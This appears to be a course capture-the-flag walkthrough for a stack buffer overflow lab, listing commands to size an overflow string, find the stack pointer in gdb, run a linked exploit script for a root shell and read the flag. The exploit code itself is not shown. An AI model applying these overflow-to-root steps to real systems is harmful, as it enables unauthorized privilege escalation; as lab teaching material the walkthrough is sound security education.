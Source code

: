 
# CTF 4 - BOF

## SETUP

1. Deploy your challenge instance
1. Open a terminal and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. In your home directory, create a file called "exploit" and copy the content of **[`exploit`](exploit)**

    ```bash
    vi $HOME/exploit
    ```

    *Save and quit with `:wq`*

## ATTACK

1. Compute the length of the string that will be passed to the vulnerable program

    ```bash
    echo $(($(grep -e "+[0-9]" $HOME/bof/vuln.c | sed 's/.*+\([0-9]\+\)\].*/\1/')/16*16 + 97))
    ```

1. Navigate to ./bof and run ./runner under gdb

    ```bash
    cd $HOME/bof
    env - gdb ./runner
    ```

1. Get the address of the stack pointer by runnig the following lines:

    ``` bash
    unset env LINES
    unset env COLUMNS
    b 24
    y
    r `perl -e 'print "A" x {string_length}'`
    p/x $esp
    ```

    The address of your stack pointer will be printed.

    > Example:  
      $1 = 0xffffffff

    Save this address and quit gdb

    ```bash
    q
    y
    ```

1. Run *exploit* with the address you just got

    ```bash
    bash $HOME/exploit {esp_address}
    ```

    > Example:  
      bash $HOME/exploit 0xffffffff

1. Once you get the root shell, you can cat the flag

    ```bash
    cat flag
    ```
